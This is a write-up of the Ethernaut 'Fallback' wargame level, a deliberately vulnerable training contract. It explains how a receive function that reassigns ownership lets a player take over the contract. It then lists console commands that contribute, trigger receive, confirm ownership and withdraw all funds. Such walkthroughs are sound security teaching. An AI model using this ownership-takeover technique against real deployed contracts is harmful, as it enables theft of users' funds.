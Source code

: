[Level 1. Fallback](https://ethernaut.openzeppelin.com/level/0x3c34A342b2aF5e885FcaA3800dB5B205fEfa3ffB)

## Level Target

1. Take ownership of the contract.
2. Withdraw all funds from the contract. (Only `owner` can do so)

## BreakDown & Analysis

1. Two ways to take ownership:
    1. Contribute more eth than `owner` does → unrealistic, you can’t contribute more than 0.001 ether at one transaction, plus the owner already has 1000 ethers of contribution when the contract is built. (unfair, right?)
    2. So the other way to hack the contract is from `receive` function, in order to call `receive`, you’ll need to satisfy two conditions.
        * send some eth when calling receive.
        * already had contributions before.
        
        Once you meet these two conditions and successfully call receive, the first target is fulfilled.
        
2. Only the owner can withdraw the funds:
    1. Since only the owner can withdraw funds, it is required to complete the first target before this step.
    2. Once you become the owner, it is effortless to withdraw all the funds!

## Detailed Steps (work through the console)

```js
await contract.contribute({ value: toWei("0.000001") }) // contribute first, so that you'll be able to call receive
await contract.getContribution().then(fund => fromWei(fund.toString())) // confirm if you have contributed
await sendTransaction({from: player, to: contract.address, value: toWei('0.000001')}) // call receive with some ether sent
await contract.owner() === player // check if you're the owner now
await contract.withdraw() // take all the funds out from the contract!!!
```
